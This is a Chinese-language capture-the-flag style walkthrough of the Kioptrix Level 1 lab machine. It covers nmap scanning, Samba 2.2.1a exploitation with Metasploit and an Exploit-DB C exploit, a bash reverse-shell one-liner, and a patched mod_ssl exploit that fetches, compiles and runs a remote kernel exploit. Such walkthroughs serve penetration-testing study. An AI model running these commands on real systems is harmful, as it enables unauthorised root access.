






靶机地址 https://www.vulnhub.com/entry/kioptrix-level-1-1,22/

# 主机发现-信息收集

nmap -sP 192.168.3.1/24    arp直连扫描存活主机，发现目标机器为192.168.2.5

nmap -sS -sV -T4 -v 192.168.3.5   主机信息探测



发现开放22ssh、80、443web服务、139samba服务

访问80端口、443端口web服务，没有任何特别发现，使用dirsearch进行一下敏感目录遍历



访问，没有什么特别的东西

另寻他法，看看其他端口服务吧

# 139端口samba服务攻击

139端口有samba服务，关于samba服务是什么，可以[看这里](https://www.cnblogs.com/struggle-1216/p/11984513.html)，安全性问题[看这里](https://www.cnblogs.com/lzkalislw/p/15986850.html)

使用msf探测一下smb服务的版本信息

```plain
msfdb run
search smaba
search smb
search smb_version
use auxiliary/scanner/smb/smb_version
set rhosts 192.168.3.5
run
```



探测到版本为**samba2.2.1a**

## 1.msf直接打

msf找到一个可用的exp，尝试进行攻击即可



## 2.searchsploit 

```plain
//搜索samba 2.2.x相关利用exp
searchsploit samba 2.2
//找到随便选一个适合的，复制出来
cp /usr/share/exploitdb/exploits/multiple/remote/10.c .
//编译
gcc -o exp-samba 10.c 
//执行
./exp-samba
./exp-samba -b 0 192.168.3.5
//反弹shell  root权限
bash -c 'bash -i >& /dev/tcp/192.168.3.6/4444 0>&1'
```



# 443端口mod_ssl攻击

```c
searchsploit mod_ssl  //发现mod_ssl版本小于2.8.7都存在可利用漏洞
```

 定位该文件的存放路径，并将其拷贝至桌面  

```c
locate 764.c
cp /usr/share/exploitdb/exploits/unix/remote/764.c /home/kali/Desktop
```

 **踩坑！！！该exp是残缺的，需要进行修改**

对该文件进行更改  

操作步骤：

（1）在25、26行中加入头文件<openssl/rc4.h>和<openssl/md5.h>

（2）第666行url修改为http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"

（3）第964行,修改为const unsigned char * p， end;*

别忘了先安装libssl1.0-dev，才能编译(kali安装失败，想哭~~~)

```c
apt-get install libssl1.0-dev    kali
gcc 764.c -o exp -lcrypto
./exp 0x6b 192.168.3.5
```